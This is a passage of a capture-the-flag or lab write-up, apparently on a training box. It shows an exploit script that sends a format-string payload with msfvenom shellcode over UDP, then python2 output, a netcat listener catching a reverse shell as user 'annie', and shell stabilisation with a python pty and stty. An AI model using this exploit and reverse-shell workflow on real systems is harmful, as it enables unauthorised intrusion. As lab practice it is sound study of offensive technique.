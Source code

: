 ```python
shellcode += b"\x1d\xc4\x43\x40\x6c\xed\xa4\xe0\xfb"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

I change the ip variable to the target system.

I then run msfvenom with the command provided in the comment using my own IP to catch the reverse shell at and remove that block of shellcode and replace it with my own and save.

I start up a listener on my system and then run the exploit.

`python 49613.py`

```bash
sending payload ...
Traceback (most recent call last):
  File "/home/kali/work/49613.py", line 46, in <module>
    p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
TypeError: can only concatenate str (not "bytes") to str
```

Well darn. I get stuck for a little bit here and eventually try and run it with python2 which for whatever reason works. That was frustrating.

<br>

## System Access

`python2 49613.py`

```bash
sending payload ...
reverse shell should connect within 5 seconds
```

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.191.127] 46050
id
uid=1000(annie) gid=1000(annie) groups=1000(annie),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
hostname
desktop
```

Alright we're on the system! Now let's get a useable shell.

```bash
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

annie@desktop:/home/annie$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                      
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

```